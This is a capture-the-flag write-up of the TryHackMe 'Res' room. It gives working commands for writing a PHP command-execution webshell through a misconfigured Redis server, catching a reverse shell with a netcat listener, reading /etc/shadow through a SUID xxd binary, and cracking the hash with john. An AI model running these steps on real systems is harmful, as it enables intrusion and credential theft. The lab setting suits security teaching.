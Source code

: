 ```yaml
---
title: "TryHackMe - Res"
author: Nasrallah
description: ""
date: 2022-09-03 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, redis, suid, easy, crack, john]
img_path: /assets/img/tryhackme/res
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Res](https://tryhackme.com/room/res) from [TryHackMe](https://tryhackme.com). We find a misconfigured databases that we exploit to get rce on the target and then a reverse shell. Then we find a binary with suid bit giving us the ability to read any file we want which leads to getting a root shell.

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.184.71
Host is up (0.085s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

We found port 80 open running Apache web server. Let's scan all port this time : `sudo nmap -p- --min-rate 5000 -sV -T4 {Target_ip}`

```terminal
Nmap scan report for 10.10.184.71
Host is up (0.080s latency).
Not shown: 65404 closed tcp ports (reset), 129 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
6379/tcp open  redis   Redis key-value store 6.0.7
```

We found another port running `redis` version 6.0.7

## Redis

We can connect to `redis` using the following command: `redis -h {Target_ip}`

```terminal
$ redis-cli -h 10.10.184.71
10.10.184.71:6379>
```

We can run the command `info` which will give up statistics about the redis server.

```terminal
10.10.184.71:6379> info                                                       
# Server                        
redis_version:6.0.7                                                           
redis_git_sha1:00000000         
redis_git_dirty:0                                                             
redis_build_id:5c906d046e45ec07                                               
redis_mode:standalone                                                         
os:Linux 4.4.0-189-generic x86_64                                             
arch_bits:64                                                                  
multiplexing_api:epoll                                                        
atomicvar_api:atomic-builtin                                                  
gcc_version:5.4.0
process_id:618           
run_id:3e2c7a6de54cd12ab2794d6990908d5416bb48d3
tcp_port:6379                
uptime_in_seconds:1579        
uptime_in_days:0        
hz:10                         
configured_hz:10               
lru_clock:989304          
executable:/home/vianka/redis-stable/src/redis-server
config_file:/home/vianka/redis-stable/redis.conf
io_threads_active:0 

[** SNIP **]

# Keyspace
10.10.184.71:6379>
```

The section that can be useful for us is **Keyspace** which provides us with the databases and the keys available on the server. Unfortunately, we couldn't find anything in this server.

We can see that the redis server is located in the home directory of a user named `vianka`, but it's not very useful for us.

Searching on the internet for ways to get RCE using redis i found the following [article](http://reverse-tcp.xyz/pentest/database/2017/02/09/Redis-Hacking-Tips.html) that describes how to get a php webshell with the following example.

```terminal
root@Urahara:~# redis-cli -h 10.85.0.52
10.85.0.52:6379> config set dir /usr/share/nginx/html
OK
10.85.0.52:6379> config set dbfilename redis.php
OK
10.85.0.52:6379> set test "<?php phpinfo(); ?>"
OK
10.85.0.52:6379> save
OK
```

We need to make some changes in the commands above.

We know that the web server running on the target is Apache, so we need to change the directory to **/var/www/html**.

We can leave the dbfilename as it is.

We change the php code to the following one that would give us remote code execution on the target.

```php
<?php system($_GET['cmd']); ?>
```

Let's do it.

```terminal
10.10.184.71:6379> config set dir /var/www/html
OK
10.10.184.71:6379> config set dbfilename redis.php
OK
10.10.184.71:6379> set test "<?php system($_GET['cmd']); ?>"
OK
10.10.184.71:6379> save
OK
10.10.184.71:6379> 
```

Now if we can go to `http://{target_ip/redis.php?cmd=}` to execute commands.

![](1.png)

We have code execution now.

# **Foothold**

To get a reverse shell, i uploaded [Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)'s php code to the target.

>Don't forget to change the ip address in the code to your tun0 ip.

![](2.png)

Now we setup a listener with `nc -lvnp 1234` and request the shell.php file.

![](3.png)

We're in.

# **Privilege Escalation**

I uploaded `linpeas` to the target and run it.

![](4.png)

We find that `xxd` has suid bit, let's check [GTFOBins](https://gtfobins.github.io/gtfobins/xxd/#suid).

![](5.png)


We can run the following command to read any file in the system.

```bash
xxd {filename} | xxd -r
```

To read the shadow file for example, run `xxd /etc/shadow | xxd -r`

![](6.png)

We have vianka's hash, we can crack it using `john`.

![](7.png)

We can now change user to `vianka` and then to root.

![](8.png)


---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---
